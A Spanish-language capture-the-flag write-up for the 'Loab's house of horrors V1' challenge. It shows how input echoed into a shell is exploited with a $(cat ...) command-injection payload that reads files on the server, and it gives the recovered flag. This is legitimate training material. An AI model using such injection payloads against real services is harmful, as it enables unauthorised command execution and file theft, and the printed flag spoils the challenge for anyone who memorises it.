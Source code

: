 # Loab's house of horrors V1.

Descomprimimos el zip y vemos un Dockerfile y código fuente escrito en python:

![loab1](https://github.com/user-attachments/assets/db52ce43-9e71-4d43-ab44-c9c8ca516e5e)

El programa acepta dos entradas de usuario, si somos muy lentos se termina:
```
You have entered the house of horrors. You will be presented with a series of challenges.
If you complete them all, you will be rewarded with the flag.
If you fail, you will be trapped here forever.
Who dares enter my realm: 

    Get comfortable. You will be here forever.
    Cg==

    Your mother was a hamster and your father smelt of elderberries.

            Is that it? Pitiful.

```

En 'welcome.py' vemos las posibles localizaciones de la flag:

![loab2](https://github.com/user-attachments/assets/2b6217e4-f59e-48e8-9689-e2df26b67262)

![loab3](https://github.com/user-attachments/assets/47c4c2a2-23f2-4394-98fc-7b52af356926)

Se usa un número aleatorio para elegir el lugar de la flag, pero la semilla siempre es la misma:

![bl1](https://github.com/user-attachments/assets/f8f5e42f-4d5c-4984-870d-add36d1ad9f8)

![bl2](https://github.com/user-attachments/assets/887811b7-3180-4fee-81e4-e723844d18db)

Nuestra entrada es directamente escrita luego del comando echo, y por lo tanto podemos usar expansiones de comandos con '$' o cerrar el echo con ';'

![blfn](https://github.com/user-attachments/assets/fc42f16e-046b-41da-ac10-99eaef3c4c19)

En la segunda entrada hay un intento de seguridad, pero igualmente se ejecutará el comando en la terminal:

![loabs4](https://github.com/user-attachments/assets/5dfc0c03-bbc0-4ad5-8b29-dc70d6d64b57)

Entonces podemos revisar todas las posibles localizaciones con: `$(cat /tmp/singularity; cat /tmp/abyss ; cat /tmp/orphans; cat /home/council; cat /tmp/.boom; cat /home/victim/.consortium;  cat /usr/bnc/.yummyarbs; cat /tmp/.loab; cat /tmp/loab)`

Nos devuelve una cadena en base64: **TklDQ3tKdTV0X3B1N19sMEBiXzFuX3JjM19vcl9oMzExX2lfZ3Uzc3N9Cg==**

```

    You have entered the house of horrors. You will be presented with a series of challenges.
    If you complete them all, you will be rewarded with the flag.
    If you fail, you will be trapped here forever.
    Who dares enter my realm: $(cat /tmp/singularity; cat /tmp/abyss ; cat /tmp/orphans; cat /home/council; cat /tmp/.boom; cat /home/victim/.consortium;  cat /usr/bnc/.yummyarbs; cat /tmp/.loab; cat /tmp/loab)

	Get comfortable. You will be here forever.
TklDQ3tKdTV0X3B1N19sMEBiXzFuX3JjM19vcl9oMzExX2lfZ3Uzc3N9Cg==
	
Your mother was a hamster and your father smelt of elderberries.

	Is that it? Pitiful.

	TOO SLOW - GOODBYE

```

La decodificamos y obtenemos la flag:

`NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}`



